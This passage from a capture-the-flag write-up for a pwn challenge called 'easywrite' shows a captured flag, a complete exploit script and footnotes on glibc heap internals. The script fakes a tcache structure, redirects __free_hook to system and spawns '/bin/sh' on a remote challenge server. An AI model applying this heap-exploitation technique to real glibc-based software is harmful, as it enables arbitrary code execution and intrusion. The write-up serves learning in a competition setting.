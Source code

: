 ```python
libx32
run.sh
usr
$ cat flag
n1ctf{09b1e57ba44889be4f9ec8feee88b3be}
$
```
## Full code
```python
from pwnscripts import *
context.binary = 'easywrite'
context.libc_database = 'libc-database'
context.libc = 'libc-2.31.so'

r = remote('124.156.183.246', 20000)
context.libc.calc_base('setbuf', unpack_hex(r.recvline()))

def tcache_perthread_struct(fake_ptrs: dict):
    '''fake_ptrs has (address: size) key-pairs'''
    def csize2tidx(x): return (x-1)//16 -1
    TCACHE_MAX_BINS = 0x40

    counts = [0 for _ in range(TCACHE_MAX_BINS)]
    entries = [0 for _ in range(TCACHE_MAX_BINS)]
    for addr,size in fake_ptrs.items():
        tidx = csize2tidx(size)
        counts[tidx] += 1
        entries[tidx] = addr
    return b''.join(map(p16,counts)) + b''.join(map(p64,entries))

SIZE = 0x40 # size of the 2nd allocation
tcache_pointer = 0x7f638ae58530-0x00007f638ac65000+context.libc.address-0x40
fake_tcache = tcache_perthread_struct({context.libc.symbols['__free_hook']-0x8: SIZE})

r.sendafter('Input your message:', fake_tcache)
r.sendafter('Where to write?:', pack(tcache_pointer))
r.sendafter('Any last message?:', b'/bin/sh\0' + pack(context.libc.symbols['system']))

r.interactive()
```
## Footnotes
0. ...which is practically identical what I said at the start of the writeup.
1. You can personally test this by overwriting all the values of `.got.plt` with garbage in `gdb`. The program exits gracefully.
2. Particularly, `__libc_IO_vtables` is useless here, because `main()` is committed to using raw `read()`s and `write()`s, instead of the standard I/O functions provided by libc.
3. The code for fastbin-malloc doesn't do much for us here. (Note that the fastbin_index for `malloc(0x30)` is 2)
    ```c
    #define fastbin_index(sz) ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
    #define fastbin(ar_ptr, idx) ((ar_ptr)->fastbinsY[idx])
